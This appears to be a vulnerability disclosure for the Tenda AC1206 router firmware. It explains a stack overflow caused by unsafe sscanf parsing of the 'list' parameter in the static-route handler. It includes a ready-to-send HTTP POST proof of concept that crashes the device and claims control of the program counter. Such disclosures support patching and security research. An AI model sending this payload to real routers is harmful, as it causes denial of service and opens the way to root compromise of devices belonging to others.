





#  Tenda AC1206 (V15.03.06.23) has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.tenda.com.cn
- Firmware download address ： https://www.tenda.com.cn/download/detail-2766.html

### Product Information

Tenda AC1206 V15.03.06.23, the latest version of simulation overview：



## Vulnerability details

The Tenda AC1206 (V15.03.06.23) was found to have a stack overflow vulnerability in the fromSetRouteStatic function. An attacker can obtain a stable root shell through a carefully constructed payload.



In the `fromSetRouteStatic` function, `list` (the value of `list`) we entered will be passed into the `save_staticroute_data` function as a parameter, and this function has stack overflow.



In the `save_staticroute_data` function,the `buf`  (the value of `list`)  is formatted using the `sscanf` function and in the form of `%[^,],%[^,],%[^,],%s`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `dst_net`、 `net_mask`、 `net_gw` or `net_ifname`, it will cause a stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/SetStaticRouteCfg HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;
Content-Length: 336
Origin: http://192.168.0.1
DNT: 1
Connection: close
Referer: http://192.168.0.1/index.html
Cookie: ecos_pw=eee:language=cn

list=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,b,c,d~
```



 By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .



As shown in the figure above, we can hijack PC registers.


Finally, you also can write exp to get a stable root shell.

